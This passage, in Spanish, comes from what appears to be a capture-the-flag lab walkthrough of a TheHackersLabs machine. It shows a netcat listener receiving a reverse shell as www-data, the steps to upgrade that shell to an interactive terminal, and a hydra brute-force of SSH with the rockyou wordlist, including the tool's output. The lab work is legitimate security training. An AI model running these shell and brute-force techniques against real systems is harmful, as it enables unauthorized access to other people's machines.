 Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...

connect to [Tu_IP] from (UNKNOWN) [192.168.100.110] 38200
whoami
www-data
```

Ya solo nos faltaría obtener una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
www-data@TheHackersLabs-Resident:/var/www/html$ whoami
www-data
```

<br>

<h2 id="FuerzaBruta">Aplicando Fuerza Bruta al Servicio SSH</h2>

Si recordamos, logramos identificar un usuario cuando aplicamos el **SSRF + LFI**.

Vamos a usar ese usuario para aplicarle Fuerza Bruta al **servicio SSH** con la herramienta **hydra**:
```bash
hydra -l 'ram' -P /usr/share/wordlists/rockyou.txt ssh://192.168.100.110 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-17 14:27:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.100.110:22/
[22][ssh] host: 192.168.100.110   login: ram   password: *******
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-17 14:27:08
```
Tenemos la contraseña y es bastante simple.
